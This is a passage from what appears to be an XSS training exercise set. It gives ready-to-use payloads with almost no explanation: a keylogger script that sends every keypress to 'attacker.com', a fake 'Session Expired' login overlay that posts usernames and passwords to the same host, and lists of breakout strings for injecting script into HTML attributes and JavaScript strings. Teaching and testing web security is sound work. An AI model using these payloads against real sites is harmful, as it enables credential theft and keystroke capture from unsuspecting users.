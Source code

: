 ### Exercise 3.2: Keylogging
```javascript
<script>
document.addEventListener('keypress', function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/log.php?key=' + e.key);
    xhr.send();
});
</script>
```

### Exercise 3.3: Phishing Forms
```javascript
<script>
document.body.innerHTML += `
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
    <h2>Session Expired - Please Login</h2>
    <form action="http://attacker.com/phish.php">
        Username: <input name="user"><br>
        Password: <input type="password" name="pass"><br>
        <input type="submit" value="Login">
    </form>
</div>`;
</script>
```

## Part 4: Context-Specific Attacks

### Exercise 4.1: HTML Context
```html
<!-- Breaking out of tags -->
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>

<!-- Event handlers -->
" onmouseover="alert('XSS')
' onclick='alert("XSS")

<!-- Style attribute -->
<div style="background:url('javascript:alert(1)')">
```

### Exercise 4.2: JavaScript Context
```javascript
// Breaking out of strings
'; alert('XSS'); //
"; alert('XSS'); //

// Template literals
${alert('XSS')}

// Function calls
');alert('XSS');//
```
